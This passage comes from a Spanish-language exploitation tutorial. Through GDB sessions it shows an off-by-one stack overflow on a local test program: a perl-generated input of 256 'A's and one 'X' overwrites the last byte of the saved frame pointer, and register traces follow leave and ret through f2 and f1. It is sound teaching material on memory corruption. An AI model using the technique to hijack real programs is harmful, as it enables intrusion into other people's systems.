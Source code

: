 Ahora analicemos las distintas situaciones.  

(gdb) run \`perl -e 'print "A"x256 . "X"'\`
Starting program: /home/arget/a \`perl -e 'print "A"x256 . "X"'\`

Breakpoint 1, 0x08048444 in f2 ()  
1: x/i $pc  
\=> 0x8048444 <f2+9>: movl $0x0,-0x104(%ebp)  
(gdb)

Le hemos introducido 256 bytes ‘A’ y un byte ‘X’. No importaría introducir más caracteres, únicamente se sobrescribirá el último byte de ebp, ya que el número de bytes que se copian es una constante: 257.  

(gdb) x $ebp
0xffffd23c: 0xffffd248
(gdb)

Ahora vemos que `EBP(s)` vale 0xffffd248. Veamos qué ocurre tras el bucle.  

(gdb) c
Continuing.

Breakpoint 2, 0x0804848a in f2 ()  
1: x/i $pc  
\=> 0x804848a <f2+79>: leave  
(gdb) x $ebp  
0xffffd23c: 0xffffd258  
(gdb)

Justo antes del `leave`, `EBP(s)` vale `0xffffd258`, siendo 0x58 el valor de ‘X’, se demuestra que hemos sobrescrito el último byte.  

(gdb) i r ebp esp
ebp            0xffffd23c 0xffffd23c
esp            0xffffd12c 0xffffd12c
(gdb) nexti
0x0804848b in f2 ()
1: x/i $pc
=> 0x804848b <f2+80>: ret    
(gdb) i r ebp esp
ebp            0xffffd258 0xffffd258
esp            0xffffd240 0xffffd240
(gdb)

Vemos ahora cómo la ejecución del `leave` coloca en EBP nuestro pequeño valorcito. Continuemos al `leave` de la función _caller_ (`f1()`), el punto crítico.

(gdb) c
Continuing.

Breakpoint 3, 0x0804849b in f1 ()  
1: x/i $pc  
\=> 0x804849b <f1+15>: leave  
(gdb) i r ebp esp  
ebp 0xffffd258 0xffffd258  
esp 0xffffd248 0xffffd248  
(gdb) nexti  
0x0804849c in f1 ()  
1: x/i $pc  
\=> 0x804849c <f1+16>: ret  
(gdb) i r ebp esp  
ebp 0xffffd320 0xffffd320  
esp 0xffffd25c 0xffffd25c  
(gdb)
